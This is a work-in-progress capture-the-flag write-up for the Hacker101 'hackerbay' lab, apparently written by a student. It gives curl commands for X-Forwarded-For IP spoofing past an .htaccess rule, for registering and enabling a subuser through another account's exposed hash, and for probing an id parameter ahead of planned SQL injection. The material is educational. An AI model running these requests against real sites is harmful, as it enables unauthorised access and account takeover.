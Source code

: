 WIP
env: hackerbay, a website where a bunch of stuff is being sold, someone posted a user/pass breach, hack in and take it down.

- flag 0
	- remembered a website crawling tip from past CTFs, checked the robots.txt filepath
	```
	User-agent: *
	Disallow: s3cr3t-4dm1n/
	```
	- when I navigated to the filepath, I got  a 403 forbidden, not a 404 not found
	- the * means it applies to all robots, and the specified path is where the robots are not allowed to go
	- might be a directory, so I scanned the path with dirb - found: `/s3r3t-4dm1n/.htaccess`
	- navigating to that filepath, the `.htaccess` file is downloaded, which contains the contents:
	```
	Order Deny,Allow
	Deny from all
	Allow from 8.8.8.8
	Allow from 8.8.4.4
	```
	- so I used curl to change my access IP (testing both allowed IPs):
	```bash
	curl -H 'X-Forwarded-For: 8.8.8.8' <url/s3cr3t-4dm1n>
	curl <url/s3cr3t-4dm1n> -H 'X-Forwarded-For: 8.8.8.8'
	```
	- I still got a 403 error (which was very confusing)
	- tried running it in powershell with `curl.exe`, same response
	- basically threw in the towel atp and found another writeup; long story short they followed the same steps and got the flag so there was probably an issue with my VM/ updates
  - (you should get the flag with no issues probably)

- flag 1
	- usernames are shown next to listings (which took me an embarrassingly long time to figure out)
	- so I reset the password as `hunter2`
	- after using inspect (and digging through like 17000 layers of divs) I found the account hash is stored in a hidden value, and hunter2's is `value="cf505baebbaf25a0a4c63eb93331eb36"`
	- after that I tried to access hunter2's auction page:
	``` bash
	curl --cookie 'userhash=cf505baebbaf25a0a4c63eb93331eb36' https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/dashboard/auctions
	```
	- which didn't work
	- my next thought was to enable a subuser (which handles the main user's auctions) using hunter2's hash
	- inspecting the subuser under form method post we get:
	```html
    <input type="hidden" name="owner_hash" value="my acc hash value">
	```
	- there are two other parameters needed to create a subuser, `new_username` and `new_password`
	- I created a new subuser account using curl (x form post method, if you're using httpie I think it's -v POST)
	```bash
	curl https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/register -d 'owner_hash=cf505baebbaf25a0a4c63eb93331eb36&new_username=222&new_password=password'
	```
	- then I logged in with the new account, and I got a  'account waiting for activation' message along with a flag

- flag 3
	- to enable user 222, I log in with my other account (111), and use the same form post method, but instead change the subuser hash to 222's hash, and the userhash cookie to hunter2's hash. 
	- change the `enable_toggle=enable` (tested with disable too)
	```bash
	curl https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/dashboard/subusers --cookie 'userhash=cf505baebbaf25a0a4c63eb93331eb36' -d 'hash=f2022076ad3ce0245c5e416b272be4d0&enable_toggle=enable'
	```
	- this isn't working, tried it with verbose mode for troubleshooting (slept through my self taught networking course on youtube university so that was also a bunch of gibberish)
	- I ended up changing the cookie to the actual session token (logged in as user 111), keeping the hash as subuser 222's, and changing the enable toggle
	```bash
	curl -v https://9ab51d50439ae311e06f11eacf66893d.ctf.hacker101.com/dashboard/subusers --cookie 'token=YjQ4OTZjZjQyNDQwYTdhYTIxNTYwYzAxZjUyN2ZmYTVjN2JhYjRkNGY1YzY2NjcyYzQ2NjdmYTUxZjZkMGQxNTU4NDM3ZGZkYzU2ODkxYjM0OWVkM2M2ZWE1ODc2NDI0M2MzOWJjMDFkMDkxZWQ1NzdmYTcxNWY1OGJlODAwM2U%3D' -d 'hash=f2022076ad3ce0245c5e416b272be4d0&enable_toggle=enable'

	```
	- the flag here was under user details on login

- flag
	- next, I went to my auctions on subuser 222
	- viewing the source code, there is a section called `auction_type_id` in the `form-control` class, which shows options for id's numbered 0-5
	- there is also a class called `auction_questions`. when I tried to navigate to the /auctions/questions filepath, I got an invalid id error `{"error":"Missing id parameter"}`
	- so I navigated to the same filepath adding the id parameter `/dashboard/auctions/questions?id=1`, which displays this as raw data: 
	```json
	{"name":"Desktops","questions":[{"question":"Make","field_name":"field_4728_186574"},{"question":"Model","field_name":"field_5738_281961"},{"question":"RAM","field_name":"field_5051_369408"},{"question":"Processors","field_name":"field_4032_347621"}],"auctions":[{"id":"1","title":"Ultra Desktop"},{"id":"9","title":"Premium Desktop"},{"id":"10","title":"Work Station"}]}
	```
	- changing the id to values like 0 or 12 returns an invalid auction id error
	- SQL is the way to go in this case - end goal obtain the admin user and password
